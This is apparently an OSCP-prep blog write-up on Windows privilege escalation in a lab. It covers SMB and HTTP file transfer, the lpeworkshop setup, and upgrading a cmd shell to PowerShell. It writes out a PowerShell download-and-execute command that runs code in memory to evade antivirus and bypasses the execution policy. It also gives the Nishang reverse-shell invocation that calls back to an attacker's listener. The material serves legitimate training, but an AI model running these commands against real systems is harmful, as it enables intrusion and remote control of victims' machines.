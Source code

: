```yaml
---
title: OSCP Windows PrivEsc - Part 1
description: Windows Privilege Escalation for OSCP
categories: [oscp]
tags: [oscp, Offensive Security]
---
```


As stated in the [OSCP Review Post](/oscp/OSCP-Review), I came across many good resources for Linux Privilege Escalation but there were just a few for Windows. [lpeworkshop](https://github.com/sagishahar/lpeworkshop) being one of those, lacks a good walkthrough. In this writeup, we will take a look at file transfer over smb and http, how to migrate to PowerShell from a standard cmd shell and lpeworkshop setup.
{: .text-justify}

---

## File transfer over SMB

While there are numerous methods to transfer files from your host Kali to victim Windows, I found SMB to be the most reliable one. 
- Install impacket on your kali (It comes preinstalled most of the times, located at /usr/share/impacket/examples/).
- Start the SMB server by running `smbserver.py`:
![image-center](/assets/images/oscp/1/smbserver.png)
This will share the `/tmp/smbshare` directory over smb as `myshare`.
- All the files inside `/tmp/smbshare` can now directly be accessed on the victim windows:
![image-center](/assets/images/oscp/1/smbshare.png)
- For more convenience, this SMB share can be  mounted directly on the windows as a drive:
	- Check currently mounted shares by running `net view`:
	- Mount your `myshare` as drive `Z` (or anything else) using the command
	`net use Z: \\<IP>\myshare`
		![image-center](/assets/images/oscp/1/smbmount.png)
- Now, you can simply change dir to `Z` and browse the shared files as a drive on the victim system.  
![image-center](/assets/images/oscp/1/smbmount2.png)
- The mount can be disconnected with command `net use Z: /d` once you are done with it.  
Another easy way to transfer files is over http using python's SimpleHTTPServer. We will take a look at it and download files using PowerShell in the following section.
{: .text-justify}
---

## PowerShell

PowerShell provides an easy way to perform post exploitation and privilege escalation activities with the help of various PS modules. Two of the most useful modules that I came across were: [Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [Powersploit's PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)   
While most of the newer Windows OS have a functional antivirus monitoring and prohibiting the execution of programs from storage, PowerShell provides us with an option to bypass this and run programs directly from the memory. This can help us evade the antivirus and easily run exploits or post-exploitation scripts.
1. Share your files using python's `SimpleHTTPServer` or Apache.   
![image-center](/assets/images/oscp/1/http1.png)
2. On the victim's cmd shell, execute the command:
`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/testfile'))"`
This downloads `testfile` and executes it in the memory.  
![image-center](/assets/images/oscp/1/http2.png)
{: .text-justify}

### Upgrading to PowerShell from cmd using Nishang

The `Invoke-PowerShellTcp.ps1` can be used to get an interactive Reverse or Bind PowerShell from the target. This script is able to connect to an attacker's netcat listener using -Reverse switch or an attacker's netcat can connect to this script Bind to a specific port on the victim when using -Bind switch. For this exercise, we are assuming that you already have access to the victim (web command injection or a cmd shell using eternalblue/any other exploit) and will look at how this cmd shell can be upgraded to an interactive reverse PowerShell.
{: .text-justify}

### Method 1: Using HTTP to evade Antivirus

We will share our `Invoke-PowerShellTcp.ps1` over http, download it to the victim, and execute it inside memory to send a reverse PowerShell.
1. Start python's `SimpleHTTPServer` and copy the `Invoke-PowerShellTcp.ps1` to that directory.   
![image-center](/assets/images/oscp/1/httpps1.png)
2. Start netcat listener on your Kali (always prefer using standard ports such as 80,443,53 since they have less chances of being blacklisted on the victim's firewall).
3. On the victim, we can download and execute this script using command: `powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`
![image-center](/assets/images/oscp/1/httpps2.png)
4. This sends an interactive reverse PowerShell to our kali on port 443:
![image-center](/assets/images/oscp/1/httpps3.png) 
5. This script can also be used to setup a bind shell on the victim using `-Bind` switch but I preferred using reverse shells in the PWK lab.
{: .text-justify}

### Method 2: Using SMB (Gets blocked by Windows AV)

While this method is convenient for sharing multiple files over smb, but since we are executing `Invoke-PowerShellTcp.ps1` from storage (drive Z), it has a good chance of getting blocked by the Windows Antivirus. 
1. On your Kali, copy `Invoke-PowerShellTcp.ps1` inside `myshare` and start the smbserver.
![image-center](/assets/images/oscp/1/ps1.png)
2. Start netcat listener on Kali.
3. You can mount the smbshare as Z, change dir to Z, and execute the script with command:
`powershell.exe -nop -ep bypass -c "Import-Module .\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`
![image-center](/assets/images/oscp/1/ps2.png)
(Note: I disabled windows AV for this exercise)
4. This sends a fully interactive PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/ps3.png)
{: .text-justify}

---

### Command breakdown

Let's see the breakdown:   
`powershell.exe -nop -ep bypass -c "<Command>"` : We are executing powershell using three arguments:
1. `-nop` or `NoProfile` : This option means that the currently active user’s profile will not be loaded.
2. `-ep bypass` or `-ExecutionPolicy Bypass` : Execution Policy restricts script execution on most systems on the default setting This can be overcome by giving Bypass value to the value of -ExecutionPolicy parameter. 
3. `-c` or `-Command` : This is used to specify a command to be executed.
4. `"iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))` : This part of the command downloads the `Invoke-PowerShellTcp.ps1` file.
5. `Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"` : These are the arguments passed to `Invoke-PowerShellTcp.ps1` module. More arguments or examples can be seen on Nishang's github.
6. Pro tip: you can append the `Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <port>` to your `Invoke-PowerShellTcp.ps1`. This way, your final command for reverse shell would just be downloading and invoking the module, you don't have to pass the arguments anymore:
	`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))`
{: .text-justify}

---

## lpeworkshop
For the setup, we need three things:
1. Windows 7/10
We can grab a free copy of Windows Evaluation versions directly from [Microsoft](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) or from [magnetikonline's github repo](https://github.com/magnetikonline/linux-microsoft-ie-virtual-machines). Prefer getting a Windows 7 as this workshop was developed and tested on a Windows 7 (SP1) x64 host. 
2. [Windows Exercises Setup Script](https://github.com/sagishahar/lpeworkshop/blob/master/lpe_windows_setup.bat)
3. [Tools for Windows Exercises](https://drive.google.com/file/d/1Lgg3HXXltB7ZD3F5YSbRl6FX7h_mPzFU/view?usp=sharing) (7z archive password: lpeworkshop)  
{: .text-justify}

[Note: Take a snapshot of the windows VM before starting the setup]  
The setup is fairly simple: Copy the lpe_windows_setup.bat script to VM and run it as an Administrator. 
{: .text-justify}

---

## Additional resources

- https://hacknpentest.com/windows-privilege-escalation-using-powershell/
- https://github.com/J3rryBl4nks/LPEWalkthrough